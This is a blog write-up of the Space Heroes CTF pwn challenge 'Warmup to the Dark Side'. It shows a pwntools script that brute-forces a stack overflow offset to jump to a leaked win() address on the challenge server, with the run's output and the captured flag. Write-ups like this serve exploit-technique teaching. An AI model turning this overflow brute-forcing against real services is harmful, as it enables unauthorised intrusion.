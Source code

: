 ```yaml
---
title: "shctf/pwn: Warmup to the Dark Side"
date: 2022-04-05 15:57:40
tags:
- ctf
- shctf
- pwn
description: "Learn how to stack smash an ASLR-enabled program... without the binary! This is my writeup for the Space Heroes CTF binary/pwn challenge \"Warmup to the Dark Side\"."
permalink: ctfs/shctf/pwn/warmup-to-the-dark-side/
thumbnail: /asset/banner/banner-darkside.png
---
```


<style>
    .box {
        border: 1px solid rgba(100, 100, 100, .5);
        padding: 1rem;
        font-size: 90%;
        text-align: center;
        margin-top: 1rem;
        margin-bottom: 1rem;
    }
    .flex-container {
        display: flex;
        flex-wrap: nowrap;
        justify-content: center;
    }
</style>

<div class="box">
    Once you start down the dark path, forever will it dominate your destiny.<br>
    (And yes, the binary isn't included)<br>
    <code>nc 0.cloud.chals.io 30096</code><br>
    <b>Author</b>: v10l3nt
</div>

Let's run that `netcat` link to see what's going on:

```console
$ nc 0.cloud.chals.io 30096
The Dark Side Of The Force, Are They. Easily They Flow, Quick To Join You In A Fight. The Dark Side resides at: 0x55a6b42f020c
Jedi Mind tricks dont work on me >>> 
```

We're given an address of the `win()` function... and that's it. If this is a `ret2win` challenge, how are we meant to find the offset of the `$rip` register and overflow it with our code? Of course... we need to brute force it.

In the code snippet below, I got the address provided in the prompt by reading the line and taking its substring (ASLR is enabled, so it's different each time). Then, I slowly increase the buffer of the payload with a loop until I find the right offset of the `$rip`:

```py
from pwn import *
for i in range(32,128):
        p = remote("0.cloud.chals.io", 30096)
        address = p.readlineS()[112:126]
        log.info("Trying offset " + str(i) + " for address " + address)
        p.sendline(b'A'*i + p64(int(address, base=16)))
        output = p.recvallS()
        if "shctf" in output:
                log.success(output)
                break
        p.close()
```

Let's run this script on the server to see if we can get the flag:

```text
...
[*] Trying offset 37 for address 0x55f788f1120c
[+] Receiving all data: Done (38B)
[*] Closed connection to 0.cloud.chals.io port 30096
[+] Opening connection to 0.cloud.chals.io on port 30096: Done
[*] Trying offset 38 for address 0x5631d523620c
[+] Receiving all data: Done (38B)
[*] Closed connection to 0.cloud.chals.io port 30096
[+] Opening connection to 0.cloud.chals.io on port 30096: Done
[*] Trying offset 39 for address 0x55980d2d520c
[+] Receiving all data: Done (38B)
[*] Closed connection to 0.cloud.chals.io port 30096
[+] Opening connection to 0.cloud.chals.io on port 30096: Done
[*] Trying offset 40 for address 0x55f0008b520c
[+] Receiving all data: Done (95B)
[*] Closed connection to 0.cloud.chals.io port 30096
[+] Jedi Mind tricks dont work on me >>> 
    shctf{I_will_remov3_th3s3_restraints_and_leave_the_c3ll}
```

<a href="https://info.flagcounter.com/8Xkk"><img src="https://s01.flagcounter.com/count2/8Xkk/bg_212326/txt_C9CACC/border_C9CACC/columns_3/maxflags_12/viewers_3/labels_0/pageviews_1/flags_1/percent_0/" alt="Free counters!" border="0"></a>
